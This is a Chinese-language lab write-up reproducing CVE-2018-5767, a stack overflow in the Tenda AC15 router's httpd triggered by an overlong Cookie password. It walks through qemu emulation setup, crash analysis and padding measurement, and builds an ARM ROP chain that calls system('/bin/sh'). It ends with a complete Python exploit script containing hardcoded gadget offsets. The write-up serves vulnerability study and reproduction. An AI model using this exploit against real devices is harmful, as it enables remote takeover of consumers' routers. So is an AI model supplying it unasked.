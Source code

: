# CVE-2018-5767 栈溢出漏洞复现

TENDA-AC15 型号路由器上的一个漏洞，产生原因是没有限制用户输入，使用 sscanf 直接将输入拷贝到栈上，导致栈溢出。

## 复现环境

* 漏洞固件在官网没找着，去百度找到了，地址在[这里](http://www.kuaihou.com/soft/311837.html)

  版本号：V15.03.1.16

* qemu v5.2

* Ubuntu 18.04

* ida 7.5

![image-20210210113356276](https://gitee.com/mrskye/Picbed/raw/master/img/20210210113356.png)

## 漏洞分析

需要配置好 qemu 桥接网络，不能就去 patch 一下 check_network 的返回值。

### 设置桥接网络

安装依赖：

```shell
sudo apt-get install bridge-utils uml-utilities
```

修改 ` /etc/network/interfaces` 网卡配置文件如下：

```
# interfaces(5) file used by ifup(8) and ifdown(8)
auto lo
iface lo inet loopback

auto ens33
iface ens33 inet manual
up ifconfig ens33 0.0.0.0 up

auto br0
iface br0 inet dhcp
bridge_ports ens33
bridge_stp off
bridge_maxwait 0
```

修改 qemu 网络脚本 `/etc/qemu-ifup` 为如下：

```
#! /bin/sh
echo "Executing /etc/qemu-ifup"
echo "Bringing up $1 for bridged mode..."
sudo /sbin/ifconfig $1 0.0.0.0 promisc up
echo "Adding $1 to br0"
sudo /sbin/brctl addif br0 $1
sleep 3
```

给脚本加上权限，重启网络服务，如果连不上网可以重启一下：

```shell
sudo chmod a+x /etc/qemu-ifup
sudo /etc/init.d/networking restart
sudo ifdown ens33
sudo ifup br0
```

运行程序还是报错，通过字符串定位到 `ConnectCfm` 函数，看不到函数体，应该是在其他文件定义的，这里也要 patch 改下跳转条件：

![image-20210210124651672](https://gitee.com/mrskye/Picbed/raw/master/img/20210210124651.png)

然后就能正常运行 httpd 服务（如果 check_network 检查是 patch 解决的，这里 ip 会有点诡异）：

![image-20210210124735721](https://gitee.com/mrskye/Picbed/raw/master/img/20210210124735.png)

在 `R7WebsSecurityHandler` 开头打上断点，这个函数处理 `/goform/execCommand` 的请求：

![image-20210210131807628](https://gitee.com/mrskye/Picbed/raw/master/img/20210210131807.png)

用 burpsuite 给 `/goform/execCommand` 发个包，加上 Cookie 的 password 属性，长度弄长点：

```
GET /goform/execCommand HTTP/1.1
Host: 192.168.211.7
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: password="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
Cache-Control: max-age=0
```

当检索 password 属性后将值经过 sscanf 正则过滤后存放到 v34 的字符串列表局部变量：

![image-20210210140543403](https://gitee.com/mrskye/Picbed/raw/master/img/20210210140729.png)

继续运行就会报段错误退出：

![image-20210210141320615](https://gitee.com/mrskye/Picbed/raw/master/img/20210210141320.png)

用 gdb-multiarch 跟一下，查看一下地址信息。发现是在一个 if 判断中退出报错，而不是在 R7WebsSecurityHandler 退出，这样控制程序流有点复杂：

![image-20210211012033940](https://gitee.com/mrskye/Picbed/raw/master/img/20210211012033.png)

根据规则如果 URL 文件后缀不是 gif 才进入 if 函数体，那么就加一个 `.gif` 让程序流直接从 R7WebsSecurityHandler 返回，这样控制起来就简单多。

然后用 cycli 生成字符串测量长度，要注意加 1 再算 padding ，得出长度为 447 。成功控制返回地址：

```
'Cookie': password="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaSKYEaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.gifbbbbzzzz"
```

![image-20210211232722219](https://gitee.com/mrskye/Picbed/raw/master/img/20210211232722.png)

### ROP 利用链

arm 返回地址是在 pc 寄存器，不是在栈上。qemu 虚拟机没有随机化地址。

构造出 `system('/bin/sh')` ，`/bin/sh` 长度超过 4 字节，由于对齐要占据 8 字节空间，`pop r0,pc` gadget 不能直接用了。

先用 `pop r3,pc` 将 system 放到 r3 ，同时压入 ` mov r0,sp;blx r3` ，这时 sp 寄存器指向 /bin/sh ，将参数地址移动到 r0 ，然后跳转 r3 地址。

![image-20210211234133733](https://gitee.com/mrskye/Picbed/raw/master/img/20210211234133.png)

qemu 需要加上 -strace 查看调用：

![image-20210211153837937](https://gitee.com/mrskye/Picbed/raw/master/img/20210211234504.png)

## EXP

```python
import struct
import requests

ip = "192.168.211.7"
command = "/bin/sh\x00"

url = "http://{:s}/goform/exeCommand".format(ip)
headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding': 'gzip, deflate',
'Connection': 'close',
'Upgrade-Insecure-Requests': '1',
'Cookie': 'password="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaSKYEaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.gifbbbbzzzz"',
'Cache-Control': 'max-age=0'
}

libc = 0x3fde6000
pop_r3_pc = struct.pack("< I",0x00018298+libc)#pop r3 pc
mov_r0_sp_blx_r3 = struct.pack("< I", 0x00040cb8 + libc)# mov r0 sp; blx r3
system = struct.pack("< I", 0x0005A270+libc)
command = command.encode()# 'byte'
password = b"A" * 444+b".gif"+pop_r3_pc+system+mov_r0_sp_blx_r3+command
headers['Cookie']=b"password="+password

try:
    response = requests.get(url,headers=headers,timeout=1)
except:
    pass
```

## 参考文章

https://www.freebuf.com/articles/wireless/166869.html

https://wzt.ac.cn/2019/03/19/CVE-2018-5767/

